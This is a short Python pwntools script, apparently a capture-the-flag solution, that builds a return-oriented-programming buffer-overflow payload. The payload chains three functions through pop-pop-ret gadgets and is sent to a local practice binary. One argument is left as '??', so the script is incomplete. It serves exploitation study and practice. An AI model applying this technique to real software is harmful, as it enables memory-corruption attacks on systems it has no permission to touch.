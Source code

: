 ```python
#!/usr/bin/env python
import pwn

# pwn.context.log_level = 'debug'

poppopret = pwn.p32(0x080494a2)  # gadgets try ROPgadget
poppoppopret = pwn.p32(0x080494a1)  # gadgets try ROPgadget

f1 = pwn.p32(0x8049256)     # func1 address
f1arg1 = pwn.p32(0x9c)      # 1st argument of func1
f1arg2 = pwn.p32(300)       # 2nd argument of func1

f2 = pwn.p32(0x804929e)     # func2 address
f2arg1 = pwn.p32(0x0)       # 1st argument of func2
f2arg2 = pwn.p32(0xd)       # 2nd argument of func2
f2arg3 = pwn.p32(0xd)       # 3rd argument of func2

flag = pwn.p32(0x80492fc)   # func3 address
f3arg1 = pwn.p32(??)        # 1st argument of func3

buff = 'A' * 172             # our buffer with 172 A

"""
Now we put all together
buffer + func1 address + poppopret + 1st arg f1 + 2nd arg f1
+ func2 address + poppoppopret + 1st arg f2 + 2nd arg f2 + 3rd arg f2
+ func3 address + JUNK + 1st arg f3

"""
payload = buff.encode() \
    + f1 \
    + poppopret \
    + f1arg1 \
    + f1arg2 \
    + f2 \
    + poppoppopret \
    + f2arg1 \
    + f2arg2 \
    + f2arg3 \
    + flag \
    + 'JUNK'.encode() \
    + f3arg1

open('payload.txt', 'w').write(payload.decode('iso-8859-1'))

elf = pwn.ELF('./port-65144')
p = elf.process()
p.sendline(payload)

print('=========================')
print('what the process returned')
print(p.recv().decode())
```
